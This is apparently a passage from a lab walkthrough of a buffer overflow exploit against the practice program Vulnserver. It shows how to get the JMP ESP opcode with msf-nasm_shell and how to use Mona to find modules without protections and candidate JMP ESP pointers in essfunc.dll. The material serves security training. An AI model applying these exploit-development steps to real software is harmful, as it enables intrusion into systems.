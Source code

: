 Another useful metasploit tool allows us to figure out the byte value of that x86 instruction:

```bash
$ msf-nasm_shell

nasm > jmp esp
00000000 FFE4 jmp esp
```

Mona allows us to find possible candidates where we might find that byte snippet `FFE4`:

```bash
!mona modules
```

![Mona modules](/assets/img/vulnserver_trun_30_mona_modules.png)

Modules where most of the protections are disabled ("False") are preferable. This leaves us with `essfunc.dll` and the main binary `vulnserver.exe`.

We can once again use Mona in order to scan these modules for our desired byte sequence `FFE4`.
```bash
!mona find -s "\xff\xe4" -m "vulnserver.exe"
found 0 pointers
```
```bash
!mona find -s "\xff\xe4" -m "essfunc.dll"
found 9 pointers
```

The main binary is a bust, but `essfunc.dll` has 9 possible candidates.

![JMP ESP candidates](/assets/img/vulnserver_trun_31_possible_jmp_esp.png)
